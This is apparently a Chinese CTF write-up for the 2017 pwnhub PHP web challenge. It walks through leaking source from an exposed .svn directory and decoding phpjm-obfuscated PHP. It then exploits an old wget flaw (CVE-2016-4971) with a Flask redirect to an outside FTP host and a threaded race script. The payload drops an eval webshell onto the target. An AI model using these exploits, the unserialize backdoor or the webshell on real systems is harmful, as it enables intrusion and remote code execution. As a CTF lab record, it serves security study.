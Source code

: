 ```yaml
---
title: pwnhub_another php web部分
date: 2017-03-05 21:22:23
tags:
- pwnhub
- php
- wget
categories:
- Blogs
---
```


周末不是太有时间，所以就没怎么打pwnhub，后来快结束的时候完成了web部分，这里贴上web部分的wp吧

<!--more-->

开始没啥可说的，应该是用来当一些咸鱼的吧，index.php~

![image_1bafa2nvpl7hl7n14d71sjk4g3m.png-15.1kB][1]

登陆框，验证码很普通的，没啥可说的，试了试没啥可玩的，那就扫目录，找到了.svn

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/

400
```

跑脚本拖源码报错了，搜了搜好像是拖的数据库报错了，所以手动看看，好像是内容被改过了

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/wc.db

Myname:Pwnhub{6666666flag}
havefun:)

用户名和密码相同

The a9b4d7cc810da015142f61f7e236d50b.php:)Welcome Pwnhub{6666666flag}
```

![image_1bad45g037c73iessr9qgp4u9.png-33.2kB][2]

源码是phpjm加密，没啥可说的，直接工具解

[http://tool.lu/php/](http://tool.lu/php/)

拿到源码

```
<?php
error_reporting(E_ALL);
$firesun_path = '';
class Pwnhub
{
    function __wakeup()
    {
        if (isset($_GET['pwnhub']) == "firesun") {
            echo "Hacked by Firesun!";
            eval(base64_decode($_POST['pwnhub']));
        }
    }
}
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}
session_start();
register_shutdown_function('pwnhubfile');
function set_context($id)
{
    global $_SESSION, $firesun_path;
    $firesun_path = '/var/www/data/' . $id;
    if (!is_dir($firesun_path)) {
        mkdir($firesun_path);
    }
    chdir($firesun_path);
    if (!is_file('firesun')) {
        $_SESSION = array();
    } else {
        $_SESSION = unserialize(file_get_contents('firesun'));
    }
}
function download_image($url)
{
    $url = parse_url($origUrl = $url);
    if (isset($url['scheme']) && $url['scheme'] == 'http') {
        if ($url['path'] == '/pwnhub.png') {
            if (isset($url['query'])) {
                die('byebyebye');
            }
            wget_wrapper($origUrl);
            echo "Nice:)";
        } else {
            echo 'sorry!';
        }
    }
}
if (!isset($_SESSION['id'])) {
    $sessId = bin2hex(openssl_random_pseudo_bytes(10));
    $_SESSION['id'] = $sessId;
} else {
    $sessId = $_SESSION['id'];
}
session_write_close();
set_context($sessId);

if (isset($_POST['image'])) {
    $p = $_POST['image'];
    if (stripos($p, 'php')) {
        echo 'wow!!!';
        die('byebye');
    }
    download_image($p);
    echo '<img src="pwnhub.jpg" width=184 height=200/>';
} else {
    die('no image:(');
}
?>
<!-- pwnhubs0urcec0d3.zip -->
<?php 
```

关键问题在于怎么控制firesun文件内容....

我们看看提示

```
2017.03.04 21:20:00wget_wrapper就是wget，不要想着在url上做文章进行命令执行，过滤很严，wget版本较低，wget版本较低，wget版本较低，重要的话说三遍
```

根据提示和源码，我们发现是SECUINSIDE CTF Quals 2016 - Trendyweb改的，然后找到wget漏洞CVE-2016-4971，发现一篇wp

[http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/](http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/)

根据wp自己研究发现简单的方式被和谐了，所以只能竞争解决问题。

这里稍微梳理下竞争逻辑：

1、访问的时候会生成独有的sessionid，并执行`set_context($sessId);`，获取firesun文件内容。

2、在第一次请求结束后，pwnhubfile会执行生成firesun
```
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}

register_shutdown_function('pwnhubfile');
```
但最重要的问题wget是不能覆盖文件的，如果wget相同文件名的，会出现firesun.1。

也就是说第一次请求结束还没能反序列化成功，就代表这里失败了。

所以我们每个sessionid只能使用一次，这里需要一个成熟的多线程脚本。




先配个线上环境，开一个flask加个跳转至ftp
```
#!/usr/bin/env python
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/pwnhub.png")
def test():
    return redirect("ftp://119.29.192.14/firesun")

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=8082)

```

然后另一个地方开个ftp，端口设为默认21

```
sudo python -m pyftpdlib -p 21
```

目录下写个firesun
```
O:6:"Pwnhub":0:{}
```

多线程脚本
```
import requests
import threading
import time
from random import Random

url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"

def down(cookie):

    data = {'image': 'http://119.29.192.14:8082/pwnhub.png'}

    r = requests.post(url, data = data, cookies=cookie)


def ri(cookie):
    s = requests.Session()

    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7'}

    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text


def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str

for i in range(0,10000):

    session = random_str(26)

    cookie = {'PHPSESSID': session}

    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()

```

能成功，但是几率不高，我们把shell写入到image/下

踩了个蜜汁坑，base64_decode过后会把`<?php ?>`中间的东西省略掉...所以又加了一层。

```
<?php eval($_POST[2]);?

file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/ddoge.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMl0pOz8+"));

ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7
```

很多函数都过滤了，所以只有eval的webshell
```
exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	
```

![image_1baf7qq8413qm1l5j8ff1dnn9u39.png-84.9kB][3]


听ven师傅说后面是pwn php，我就不自寻死路了，就到这里


  [1]: http://static.zybuluo.com/LoRexxar/3ahdwdvid617k41przx54lx5/image_1bafa2nvpl7hl7n14d71sjk4g3m.png
  [2]: http://static.zybuluo.com/LoRexxar/w71w0hbgw4cnrhafki8fft94/image_1bad45g037c73iessr9qgp4u9.png
  [3]: http://static.zybuluo.com/LoRexxar/kiqpvpnu7yxvoyh58t42bwjh/image_1baf7qq8413qm1l5j8ff1dnn9u39.png